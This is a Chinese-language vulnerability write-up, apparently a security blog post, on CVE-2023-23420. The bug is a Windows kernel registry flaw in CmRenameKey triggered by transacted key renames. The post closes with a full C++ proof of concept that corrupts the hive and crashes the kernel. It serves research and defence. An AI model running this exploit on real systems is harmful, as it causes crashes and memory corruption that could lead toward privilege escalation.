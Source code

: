 ```yaml
---
layout: post
title:  "CVE-2023-23420"
categories: hack
tags:  pentest
author: cn6u9
---
```


* content
{:toc}

Windows 中就地重命名注册表项的操作在 NtRenameKey 系统调用中实现，大部分核心逻辑在内部 CmRenameKey 函数（由 NtRenameKey 调用）中找到。为了保持 hive 数据库的状态一致，内核防止键名冲突很重要，如果已经存在另一个具有该名称的键，则永远不要接受重命名键的新名称。这是通过调用 CmpFindSubKeyByNameWithStatus 并在新名称已存在时返回 STATUS_CANNOT_DELETE 来实现的。这足以防止与配置单元中持久存在的子键发生冲突。

然而，还有一类键在 Hive 结构中还没有全局可见的键节点，但具有相应的 KCB 并且实际上存在于事务范围内：尚未提交的事务创建/重命名键. 在这个阶段，它们无法通过 CmpFindSubKeyByNameWithStatus 找到，但是 NtRenameKey/CmRenameKey 应该考虑到它们。它们目前在事务重命名案例中没有得到正确处理，这可能导致配置单元状态不一致、内存损坏和本地攻击者潜在的特权提升。

CmRenameKey 中的具体逻辑对我们来说似乎有些不直观，我们无法基于逆向工程来完全解释它。该函数知道一个密钥的 KCB 可能已经存在的事实，因为它试图通过调用 CmpFindKcbInHashEntryByName 来找到它。仅当未找到 KCB 时，才会使用 CmpCreateKeyControlBlock 分配一个新的。尽管如此，即使为新密钥名称找到了现有的 KCB，也不会进行任何进一步的检查以验证事务处理分支中 KCB 的状态（密钥是否处于活动状态？它是否处于删除/卸载状态等） .?). 相反，CmRenameKey 似乎假定 KCB 处于新鲜/未使用状态并完全拥有它，忽略对象的任何现有状态和依赖项。这表现在几个方面：

1) 例程无条件地覆盖 KCB 的部分内容，特别是 KCB.KeyCell 和 KCB.TransKCBOwner 字段（可能已经设置为不同的值）。
2) 例程在 KCB 上调用 CmpLockIXLockExclusive 两次而不检查返回值，就好像该函数永远不会失败（如果 KCB 的锁已经被另一个事务占用，它就会失败）。
3) 如果稍后在 CmRenameKey 期间遇到任何错误，则通过调用 CmpMarkKeyUnbacked/CmpDereferenceKeyControlBlockWithLock 销毁 KCB，并且不会尝试保留其现有状态。

我们发现以上是一个强有力的指标，表明该函数假设在 KCB 的新副本上运行，即使它在 CmpFindKcbInHashEntryByName 返回时可能已完全初始化并起作用。

原则上，触发漏洞需要三个步骤：

1) 通过创建（例如 RegCreateKeyEx）或重命名（例如 RegRenameKey）操作以事务方式创建测试密钥，但不要提交它。
2) 事务性地将另一个键重命名为步骤 1 中键的名称。
3) 提交步骤 1/2 中的事务。

从理论上讲，这应该会导致创建两个具有相同名称的子项，这通常是不可能的，但需要一些工作才能转换为内存损坏原语。

在实践中，由于 CmpAddSubKeyToList/CmpAddToLeaf 函数之间面临重复键名的混淆，我们立即得到数据库的不一致状态：_CM_KEY_NODE.SubKeyCounts[1] 等于 0x2，但 _CM_KEY_NODE.SubKeyLists[ 指向的键索引1] 只有一个条目。
附件是一个概念验证漏洞，它执行以下步骤：
1. 创建 HKCU\Test\AAAA 和 HKCU\Test\BBBB 密钥。
2. 将两个子项事务性地重命名为 HKCU\Test\CCCC。
3. 提交事务。
4. 尝试通过 RegDeleteTree 递归删除整个 HKCU\Test 树。

第 2-3 步触发错误，第 4 步触发内核崩溃。发生的情况是，一旦 HCKU\Test\CCCC 第一次被删除，子键索引变为空，因此 _CM_KEY_NODE.SubKeyLists[1] 单元格索引重置为 -1 (0xFFFFFFFF)。但是 _CM_KEY_NODE.SubKeyCounts[1] 仅从 0x2 递减到 0x1，因此当 RegDeleteTree API 尝试再次枚举子键以查找下一个要删除的键时，内核尝试将无效的 -1 索引转换为虚拟地址，并生成未处理的异常。
poc:
```
#include <Windows.h>
#include <ktmw32.h>
#include <sddl.h>

#include <cstdio>

#pragma comment(lib, "ktmw32")

int main(int argc, char** argv) {
  LSTATUS st;

  //
  // Create two test keys under HKCU\Test.
  //

  HKEY hTestKeyA, hTestKeyB;
  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\AAAA",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyA,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #1 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyA);

  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\BBBB",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyB,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #2 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyB);

  //
  // Create a transaction.
  //

  HANDLE hTrans = CreateTransaction(NULL, NULL, 0, 0, 0, 0, NULL);
  if (hTrans == INVALID_HANDLE_VALUE) {
    printf("CreateTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Open the test keys and rename both of them transactionally to the same new
  // name.
  //

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\AAAA",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyA,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #1 failed with error %d\n", st);
    return 1;
  }

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\BBBB",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyB,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #2 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyA, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #1 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyB, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #2 failed with error %d\n", st);
    return 1;
  }

  //
  // Commit the transaction.
  //

  if (!CommitTransaction(hTrans)) {
    printf("CommitTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Try to recursively delete the test key tree, triggering a crash.
  //

  RegDeleteTree(HKEY_CURRENT_USER, L"Test");

  return 0;
}
```

# 小结


